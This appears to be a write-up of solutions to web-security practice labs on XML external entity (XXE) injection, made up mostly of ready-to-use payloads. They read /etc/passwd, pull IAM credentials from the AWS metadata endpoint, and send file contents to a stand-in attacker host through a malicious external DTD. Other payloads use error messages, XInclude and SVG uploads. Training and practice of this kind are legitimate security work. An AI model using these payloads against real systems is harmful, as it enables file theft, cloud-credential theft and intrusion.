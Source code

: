 ### Exploiting XXE using external entities to retrieve files

We see a POST request to /products/stock with a XML in the body. Add the entity creation line:
`<!DOCTYPE foo [<!ENTITY replace SYSTEM "/etc/passwd"> ]>`

And then, call it, in this case, in the productId: `&replace;`

This is the final payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY XXE SYSTEM "/etc/passwd"> ]>
	<stockCheck>
		<productId>
			&XXE;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

> Bare in mind this payload may be incorrectly indented!

---
### Exploiting XXE to perform SSRF attacks

Exactly the same as the previous one, but now we try to retrieve the content of the AWS metadata with the magic IP

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY XXE SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
	<productId>
		&XXE;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

---
### Blind XXE with out-of-band interaction

In this case, as you cant see the XXE injection, you can send a request to a collaborator, like this: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY XXE SYSTEM "https://COLLABORATOR-URL"> ]>
<stockCheck>
	<productId>
		&XXE;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

---
### Blind XXE with out-of-band interaction via XML parameter entities

Input this line after `<?xml version="1.0" encoding="UTF-8"?>` and before `<stockCheck>`.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```
The productId should not be modified.

---
### Exploiting blind XXE to exfiltrate data using a malicious external DTD

This is the body payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This you'll use in the repeater:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck>
	<productId>
		3
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

So you are declarating a XML in you exploit server, and then you are going to look for that file in the burp repeater, by specifying the URL of the hosted file

---
### Exploiting blind XXE to retrieve data via error messages

This is the body payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> 
%eval;
%exfil;
```

And this is what you will put in the request:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aff00db0348c53e8392732701d100d1.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

This only can happen when you have detailed error messages after trying to get a particular file, because this will append the content of what you are trying to get to the error message.

---
### Exploiting XInclude to retrieve files

This is the payload
`productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1&storeId=1`

---
### Exploiting XXE via image file upload

Create a SVG file with vim, and use this contnet:
`<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`

---
